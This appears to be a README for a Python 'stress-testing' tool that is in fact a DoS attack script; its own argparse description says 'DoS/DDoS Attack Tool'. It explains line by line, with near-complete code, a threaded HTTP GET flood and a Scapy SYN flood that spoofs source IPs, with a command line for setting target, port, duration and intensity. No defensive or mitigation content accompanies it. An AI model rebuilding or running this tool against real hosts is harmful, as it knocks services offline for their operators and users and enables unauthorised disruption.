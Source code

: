 # dos_tool
Stress-testing python tool

Overview

This Python script implements a simple Denial of Service (DoS) attack tool that supports two types of attacks: HTTP Flood and SYN Flood. The tool is designed to simulate network stress testing by sending multiple HTTP requests or TCP SYN packets to a target server. It uses the socket, threading, time, argparse, scapy, and random libraries to perform these tasks.

import socket: 
This imports Python's built-in socket module, which allows creating network connections (like TCP sockets) to send data over the internet. It's used for establishing connections in the HTTP flood.

import threading: 
Imports the threading module for creating multiple threads (parallel execution paths). This enables sending many requests simultaneously in the HTTP flood, simulating a "flood."

import time: 
Provides functions for handling time, like measuring durations or adding delays (e.g., time.time() for current timestamp, time.sleep() for pauses).

import argparse: 
Imports the argparse module to parse command-line arguments, making the script configurable via flags (e.g., specifying target, port).

from scapy.all import IP, TCP, send: Imports specific classes and functions from the scapy library (a third-party packet manipulation tool). IP and TCP are for crafting IP and TCP packets, and send is for transmitting them. Used only in the SYN flood.

import random: 
Provides functions for generating random numbers, used to spoof source IP addresses in the SYN flood.

Class: HTTPFlood
This class handles an HTTP flood attack, which overwhelms a web server by sending many HTTP GET requests rapidly. It simulates traffic from multiple sources using threads.
__init__(self, target, port, urls_file, duration, intensity)

Purpose: Constructor method that initializes the object with attack parameters.
Inputs:

target: A string representing the target's IP address or domain name (e.g., "example.com").
port: An integer for the target's port (typically 80 for HTTP or 443 for HTTPS).
urls_file: A string path to a file containing URLs to request (e.g., "urls.txt").
duration: An integer for how long the attack should run in seconds.
intensity: An integer for how many requests to send per second.


Outputs: None (initializes instance variables).
How it works:

self.target = target: Stores the target.
self.port = port: Stores the port.
self.urls = self.read_urls(urls_file): Calls the read_urls method to load URLs from the file and stores them in a list.
self.duration = duration: Stores the duration.
self.intensity = intensity: Stores the intensity.



read_urls(self, filename)

Purpose: Reads a file and returns a list of stripped URLs (ignoring empty lines).
Inputs:

filename: A string path to the file (e.g., "urls.txt").


Outputs: A list of strings (URLs), or an empty list if the file isn't found.
How it works:

try:: Starts a try-except block to handle errors.
with open(filename, 'r') as f:: Opens the file in read mode ('r') using a context manager (automatically closes the file).
return [line.strip() for line in f if line.strip()]: Uses a list comprehension to read each line, strip whitespace (e.g., remove newlines), and include only non-empty lines.
except FileNotFoundError:: Catches if the file doesn't exist.
print(f"File {filename} not found."): Prints an error message.
return []: Returns an empty list.



send_request(self, url)

Purpose: Sends a single HTTP GET request to the target using the provided URL.
Inputs:

url: A string URL path (e.g., "/index.html").


Outputs: None (prints success or error).
How it works:

try:: Starts a try-except for error handling.
http_request = f"GET {url} HTTP/1.1\r\nHost: {self.target}\r\n\r\n": Constructs a basic HTTP request string using f-string formatting. \r\n are carriage return and newline for HTTP protocol. This requests the URL from the host.
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:: Creates a TCP socket (AF_INET for IPv4, SOCK_STREAM for TCP) in a context manager.
s.settimeout(10): Sets a 10-second timeout for the socket to prevent hanging.
s.connect((self.target, self.port)): Connects to the target IP/domain and port.
s.send(http_request.encode()): Encodes the request to bytes and sends it.
print(f"Request sent to {url}"): Prints success.
except Exception as e:: Catches any errors (e.g., connection failure).
print(f"Error sending request: {e}"): Prints the error.



start_attack(self)

Purpose: Launches the flood by creating threads to send requests repeatedly for the duration.
Inputs: None (uses instance variables).
Outputs: None (prints start/completion and manages threads).
How it works:

print("Starting HTTP flood attack..."): Announces start.
threads = []: Initializes an empty list to track threads.
start_time = time.time(): Records current time.
while time.time() - start_time < self.duration:: Loops until duration expires.

for _ in range(self.intensity):: Loops to create 'intensity' number of threads per second.

thread = threading.Thread(target=self.send_request, args=(self.urls[0],)): Creates a thread targeting send_request with the first URL (note: it always uses self.urls[0], ignoring others).
thread.start(): Starts the thread.
threads.append(thread): Adds to list.


time.sleep(1): Pauses 1 second between bursts.


for thread in threads:: After loop.

thread.join(): Waits for each thread to finish.


print("HTTP flood attack completed."): Announces end.



Class: SynFlood
This class handles a SYN flood attack, which exploits TCP handshakes by sending many SYN packets without completing them, exhausting server resources.
__init__(self, target, port, duration, pps)

Purpose: Initializes with attack parameters.
Inputs:

target: String IP/domain.
port: Integer port.
duration: Integer seconds.
pps: Integer packets per second (uses 'intensity' from args as pps).


Outputs: None.
How it works: Similar to HTTPFlood.__init__, stores values in self.target, etc.

start_attack(self)

Purpose: Sends SYN packets at the specified rate for the duration.
Inputs: None.
Outputs: None (prints packets sent and completion).
How it works:

print("Starting SYN flood attack..."): Announces start.
start_time = time.time(): Records time.
while time.time() - start_time < self.duration:: Loops for duration.

src_ip = f"192.168.1.{random.randint(1, 255)}": Generates a fake source IP (spoofing, always 192.168.1.x range).
packet = IP(src=src_ip, dst=self.target) / TCP(dport=self.port, flags="S"): Crafts a packet using Scapy: IP layer with source/destination, layered with TCP (destination port, SYN flag 'S' for handshake start).
send(packet, verbose=0): Sends the packet silently (verbose=0 suppresses output).
time.sleep(1/self.pps): Pauses to achieve packets-per-second rate (e.g., for 100 pps, sleep 0.01 seconds).
print(f"SYN packet sent from {src_ip} to {self.target}:{self.port}"): Logs each send.


print("SYN flood attack completed."): Announces end.



Function: main()

Purpose: Entry point for parsing args and starting the attack.
Inputs: None (reads from command line).
Outputs: None (launches attack or prints errors).
How it works:

parser = argparse.ArgumentParser(description='DoS/DDoS Attack Tool'): Creates parser with description.
parser.add_argument('attack_type', choices=['http', 'syn'], help='Type of attack (http or syn)'): Positional arg for type, restricted to choices.
parser.add_argument('-t', '--target', required=True, help='Target IP or domain'): Required flag for target.
parser.add_argument('-p', '--port', type=int, required=True, help='Target port'): Required int for port.
parser.add_argument('-d', '--duration', type=int, default=60, help='Attack duration in seconds'): Optional int, default 60.
parser.add_argument('-i', '--intensity', type=int, default=100, help='Intensity of attack (requests/threads per second)'): Optional int, default 100.
parser.add_argument('-u', '--urls', type=str, help='File containing URLs for HTTP flood'): Optional for HTTP URLs file.
args = parser.parse_args(): Parses command line into args object.
if args.attack_type == 'http':: Checks type.

if not args.urls:: Requires URLs file for HTTP.

print("For HTTP flood, please provide a URLs file."): Error if missing.
return: Exits function.


http_flood = HTTPFlood(args.target, args.port, args.urls, args.duration, args.intensity): Creates instance.
http_flood.start_attack(): Starts it.


elif args.attack_type == 'syn':: For SYN.

syn_flood = SynFlood(args.target, args.port, args.duration, args.intensity): Creates instance (uses intensity as pps).
syn_flood.start_attack(): Starts it.





 if __name__ == "__main__":

main(): Runs main() only if the script is executed directly (not imported as a module).
